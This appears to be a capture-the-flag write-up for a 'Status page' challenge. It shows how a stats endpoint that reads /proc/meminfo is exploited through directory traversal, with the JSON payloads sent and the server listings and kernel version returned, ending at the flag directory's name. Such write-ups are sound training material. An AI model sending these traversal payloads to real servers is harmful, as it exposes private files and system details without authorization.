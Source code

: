 # Status page
10 Points

## Solution

We get a page titled "Find the flag on the server" which is displaying some usage stats:

```
MemTotal: 32891152 kB
MemFree: 5626532 kB
MemAvailable: 27921752 kB
```

It's possible to click a "refresh" button to refresh the stats. Clicking the button triggers a request to `refresh.ajax`. 

The request is:

```json
[{"l":3,"p":""}]
```

The response is of the form:

```json
{
  "result": [
    "MemTotal:       32891152 kB",
    "MemFree:         5633468 kB",
    "MemAvailable:   27945728 kB"
  ]
}
```

What if we change `l` to something other than `3`? We get:

```json
{
  "result": [
    "MemTotal:       32891152 kB",
    "MemFree:         9702228 kB",
    "MemAvailable:   28062364 kB",
    "Buffers:         1143108 kB",
    "Cached:          3573264 kB",
    "SwapCached:            0 kB",
    "Active:          6266240 kB",
    "Inactive:        4092732 kB",
    "Active(anon):    3037784 kB",
    "Inactive(anon):     6660 kB",
    "Active(file):    3228456 kB",
    "Inactive(file):  4086072 kB",
    "Unevictable:           0 kB",
    "Mlocked:               0 kB",
    "SwapTotal:             0 kB",
    "SwapFree:              0 kB",
    "Dirty:               564 kB",
    "Writeback:             0 kB",
    "AnonPages:       5640504 kB",
    "Mapped:           523372 kB",
    "Shmem:             12876 kB",
    "KReclaimable:   11512080 kB",
    "Slab:           12317368 kB",
    "SReclaimable:   11512080 kB",
    "SUnreclaim:       805288 kB",
    "KernelStack:       44640 kB",
    "PageTables:        61620 kB",
    "NFS_Unstable:          0 kB",
    "Bounce:                0 kB",
    "WritebackTmp:          0 kB",
    "CommitLimit:    16445576 kB",
    "Committed_AS:   27131012 kB",
    "VmallocTotal:   34359738367 kB",
    "VmallocUsed:       55848 kB",
    "VmallocChunk:          0 kB",
    "Percpu:           235136 kB",
    "AnonHugePages:    157696 kB",
    "ShmemHugePages:        0 kB",
    "ShmemPmdMapped:        0 kB",
    "FileHugePages:         0 kB",
    "FilePmdMapped:         0 kB",
    "HugePages_Total:       0",
    "HugePages_Free:        0",
    "HugePages_Rsvd:        0",
    "HugePages_Surp:        0",
    "Hugepagesize:       2048 kB",
    "Hugetlb:               0 kB",
    "DirectMap4k:     1768648 kB",
    "DirectMap2M:    31784960 kB",
    "DirectMap1G:     2097152 kB"
  ]
}
```

That looks like the result of `cat /proc/meminfo`. Can we perform directory traversal to cat a different file?

| What we send                        | What we get back                                                    |
| ----------------------------------- | ------------------------------------------------------------------- |
| `[{"l":150,"p":"./../version"}]`    | `Linux version 5.4.89+ (builder@000b7ffa02b3) (Chromium OS 11.0_pre391452_p20200527-r7 clang version 11.0.0 (/var/cache/chromeos-cache/distfiles/host/egit-src/llvm-project a8e5dcb072b1f794883ae8125fb08c06db678d56)) #1 SMP Sat Feb 13 19:45:14 PST 2021"` |
| `[{"l":150,"p":"./../self/cwd"}]`   | `{"result":["cloud-grid-runner.js","config","create-app.js","factories.js","g","jest.config.js","jest.e2e.config.js","jest.fakes.config.js","jest.it.config.js","jest.it.data.config.js","jest.it.parallel.config.js","node_modules","package-lock.json","package.json","src"]}` |
| `[{"l":150,"p":"./../self/src"}]`   | `{"result":["bi-logging","config","handlers","init","js-server-side","libs","middleware","npm-support","preload","runtime-env","tracing.js","uncaught-exception-handler.js"]}` |
| `[{"l":150,"p":"./../self/cwd/src/../../../../"}]` | `{"result":["etc","lib","lib64","node","proc","sys","user-code","usr"]}` |
| `[{"l":150,"p":"./../self/cwd/src/../../../../user-code"}]` | `{"result":["d1r3c70rY_7R4v3R54L","public"]}` |



